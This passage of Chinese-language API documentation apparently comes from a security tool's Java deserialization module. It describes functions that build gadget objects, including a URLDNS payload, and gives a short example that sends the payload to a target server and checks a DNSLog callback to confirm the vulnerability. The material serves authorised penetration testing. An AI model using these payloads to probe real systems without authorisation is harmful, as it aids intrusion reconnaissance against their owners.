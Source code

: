 
#### 定义

`GetSimplePrincipalCollectionJavaObject() (*JavaObject, error)`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetURLDNSJavaObject

#### 详细描述
GetURLDNSJavaObject 利用Java URL类的特性，生成一个在反序列化时会尝试对提供的URL执行DNS查询的Java对象。

这个函数首先使用预定义的URLDNS序列化模板，然后在序列化对象中替换预设的URL占位符为提供的URL字符串。

url：要在生成的Java对象中设置的URL字符串。

返回：成功时返回构造好的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
url, token, _ = risk.NewDNSLogDomain()
javaObject, _ = yso.GetURLDNSJavaObject(url)
gadgetBytes,_ = yso.ToBytes(javaObject)
使用构造的反序列化 Payload(gadgetBytes) 发送给目标服务器
res,err = risk.CheckDNSLogByToken(token)

	if err {
	  //dnslog查询失败
	} else {
	  if len(res) &gt; 0{
	   // dnslog查询成功
	  }
	}

```


#### 定义

`GetURLDNSJavaObject(url string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| url | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
